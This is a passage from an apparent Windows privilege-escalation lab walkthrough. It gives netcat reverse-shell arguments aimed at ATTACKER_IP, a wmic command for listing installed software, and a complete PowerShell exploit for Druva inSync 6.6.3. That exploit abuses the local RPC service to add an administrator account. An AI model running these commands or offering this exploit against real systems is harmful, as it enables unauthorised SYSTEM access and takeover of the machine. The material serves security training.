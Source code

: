 The `-p` parameter specifies the executable to be run by the exploit, which is `nc64.exe` in this case. The `-a` parameter is used to pass arguments to the executable. Since we want nc64 to establish a reverse shell against our attacker machine, the arguments to pass to netcat will be `-e cmd.exe ATTACKER_IP 4442`.

## Abusing Vulnerable Software

### Unpatched software

Software installed on the target system can present various privilege escalation opportunities.
As with drivers, organisations and users may not update them as often as they update the operating system.

**List softwares**
```cmd
wmic product get name,version,vendor
```

Remember that the `wmic product` command may not return all installed programs.

Once we have gathered product version information, we can always search for existing exploits on the installed software online on sites like [exploit-db](https://www.exploit-db.com/), [packet storm](https://packetstormsecurity.com/) or plain old [Google](https://www.google.com/), amongst many others.

## Druva inSync 6.6.3

The software is vulnerable because it runs an RPC (Remote Procedure Call) server on port 6064 with SYSTEM privileges, accessible from localhost only. If you aren't familiar with RPC, it is simply a mechanism that allows a given process to expose functions (called procedures in RPC lingo) over the network so that other machines can call them remotely.

**This will create user `pwnd` with a password of `SimplePass123` and add it to the administrators' group.**

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```
